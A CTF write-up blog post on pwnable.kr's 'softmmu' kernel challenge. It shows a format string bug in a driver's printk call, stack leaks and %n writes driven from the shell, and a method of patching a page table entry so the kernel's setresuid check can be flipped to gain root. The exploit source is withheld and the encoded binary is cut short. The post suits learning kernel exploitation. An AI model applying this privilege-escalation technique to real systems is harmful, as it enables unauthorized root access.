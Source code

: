 ```yaml
---
title: "pwnable.kr's softmmu - An Awesome Linux Kernel Exploit"
---
```


Over the years of my CTF\'ing I always come back to [pwnable.kr](https://pwnable.kr), although a tad outdated it\'s a vast source of simply awesome binary exploitation and pwn challanges. In particular their kernel exploitation series of challanges interest me - they\'re really well made and good introductory material on the matter. Per the policies on the site, this writeup won\'t share any source code and try to be minimal as possible.

The last of those challanges is *softmmu*, here\'s the readme\:\

> ***If you are good at kernel exploit, try this one :)***


<img src="../img/softmmu/softmmu.png" style="width:20%">

## The Challange
We\'re given two things: a linux kernel object file containing some sort of a driver, and access to a fairly old linux virtual machine loaded with asid driver. Before we open the executable for further inspection in IDA, let\'s SSH into the machine and check what it does.

```
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne '\x00\x80\x04\x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)

$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.ko
```

*Hmm*, it prints out a pretty explanation for us :3 As the name softmmu hints \- the module interfaces with the Linux kernel memory\'s and emulates a x86 Page Address Extension for the MMU. The interface with the module seems to be very straightforward, we write a virtual address to the device file /proc/softmmu and then read back the physical address.

## Finding A Vulnerability
Our end goal is to get root, so we definitely have to find a vulnerability to expoloit in the softmmu module. Let\'s open the kernel object file in IDA to analyze:

<img src="../img/softmmu/overview.png" style="width:70%">

A fairly tame program, not too many functions and fairly straightforward structure. We are not going to reverse the entire program (since I found the vulnerability quickly) but here are some pointers:\
\
> We cannot request the physical addresses of ones outside userspace (seems important for the exploit).\
> It recursively traverses page table within the mmu_walk() function in order to retrieve addresses.\
> Program contains verbose output for debugging purposes.
\
The last point is particulary important; it allows us to understand the inner workings better and perhaps find a vulnerability to exploit, let\'s look at the debugging code.

```
__int64 __usercall get_pte_entry@<edx:eax>(int a1@<eax>, char *a2@<edx>)
{
  int v2; // ebx

  v2 = *(_DWORD *)&a2[8 * ((a1 & 0x1FF000u) >> 12)];
  if ( (v2 & 1) != 0 )
  {
    printk("[Debug] PGD(%x) Dump\n", a2);
    printk(
      "[task:%s] %p:%02x %p:%02x %p:%02x %p:%02x\n",
      (const char *)(__readfsdword((unsigned int)&current_task) + 740),
      a2,
      *a2,
      a2 + 1,
      a2[1],
      a2 + 2,
      a2[2],
      a2 + 3,
      a2[3]);
    printk("[Debug] Dump Virtual Address\n");
    printk("\n===============================\n");
    printk((const char *)req_vaddr);
    printk("\n===============================\n");
  }
  return v2;
}
```

Fairly bloaty raw decompiled code, but breaking it down it is very simple: it retrieves a page table entry from a PD64 (Page Global Directory entry). Besides the pretty cool kernel level code, the vulnerability here is glaringly obvious - the program passes the address we request (a global variable) to printk().\
\
> printk((const char *)req_vaddr);\

#### Boom~! 

We found a string format vulnerability we can control :3 

## Writing The Exploit - Pt. 1
So far this hasn\'t been a challenge for kernel experts, even a script kiddie can find this vulnerability. I must admit, writing the exploit is much more difficult because a plethora of reasons.\
\
In order to pass a string to the module, we\'d have to allocate some bytes in the process memory space. Let\'s try compile a simple C program on the remote machine to do just that:
```
/tmp $ gcc pwn.c
sh: gcc: not found
```
*Oof*, that means we have to cross compile.\
The first problem that imposes us is the fact the remote machine is running a really outdated version of the kernel, paired with the fact it doesn\'t have internet access it really limits us in how we compile for it.
The soltuion that I came up with was as follows\
compile a static no-stdlib program -> compress it -> base64 the tar.gz -> do the reverse on remote.\

#### This means writing a minimal libc from scratch, *good luck me*\.\.\.

After a fair amount of work, I got to a level where I had all of the necessary API\'s to leverage the vulnerability\
On local machine:
```
yael@covenstead:~/softmmu$ gcc pwn.c -nostdlib -m32 -static -o /dev/stdout | gzip - | base64 -w 0
H4sIAAAAAAAAA+1bfWwT5xlz3YSjziNYdmW0nR1p2iE0phAUpY0k0gCB2kFw4RYa9dS49hHEsd2PPtcEgYrzIuI5VnLgE2a1j+Q9v2hqdpUpPHPsqZt...
```
On Remote:
```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%x %x %x %x\n"
< paste base64 code here >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[<3] softmmu output: 0xBFB81288
```
\
Awesome~! We\'re able to leak addresses off the stack :3\
Finally some progress, we should try running the forsakened %n.\.\.
```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%65n"
< ... >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627]                                                               
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:A] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627]                                                        
======================================
[<3] softmmu output: 0xBFB81288
```
OMG, it worked and we wrote into the process name <3! (As seen in the debug messages) All of this work wasn\'t for nothing.

## Writing The Exploit - Pt. 2
Now for the second part of the exploit, we have to figure out how the hell we take advantage of the format string vulnerability. This isn\'t like the average format string attack as it\'s not performed on a userland stack, but a kernel one. Besides our request address which occasionally surfaces down the stack we get nada.\
\
Luckily for us we have a bunch of debug values on the stack, some of them might be incredibly useful to craft an exploit. ***Yes!*** The stack is setup in a way we can write to the page table entry any arbtriary value we want, hence we change the permissions of a kernel pages and execute our code as supervisor :3\
(We have a pointer for each byte and the corresponding address)\
\
Since we have to fully comperhend the paging mechanism in full detail to execute this exploit properly, here\'s a diagram of the Page Table Entry structure:

<img src="../img/softmmu/pte.png" style="width:70%">

There are many bits and flops, but assuming basic knowledge of paging nothing is too out of ordinary. The first three flags are interesting: P (**P**resent), R/W (**R**ead/**W**rite) and U/S (**U**ser/**S**upervisor).\
If the **P**resent bit is set then the page is actually in physical memory at the moment, if the **R**ead and **W**rite bit is set then the page is both readable and writable (if not then it is read only) and lastly the **U**Ser/**S**upervisor bit is set based on privellege level.\
\
We can get to work on patching the bytes of the PTE, we are able to patch one of our userspace page entries to pount to a physical adress that contains the kernel code of sys_setresuid() and make it writable. Once we got that we can flip the prillege check from je to jne, call setresuid(0) and obtain root >:3

```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x
< ... >
{CENSORED_FLAG}
/ # whoami
```

## Conclusions
This without a doubt is a serious challenge full of hurdles. Personally for me it symbolizes some sort of maturity in my cybersecurity journey, I learned so much throughout and I can\'t wait to do more.\
\
About the softmmu itself, this post only showed the a small part of the failures. So much stuff I first tried didn\'t end up working at the end, this only shows how deep and complex it gets. I believe it is a prime example of diving deep and reading old documentation about the kernel\'s inner workings and trying to figure it all out.

<img src="../img/softmmu/softmmu_completed.png" style="width:20%">

TLDR: the kernel is complex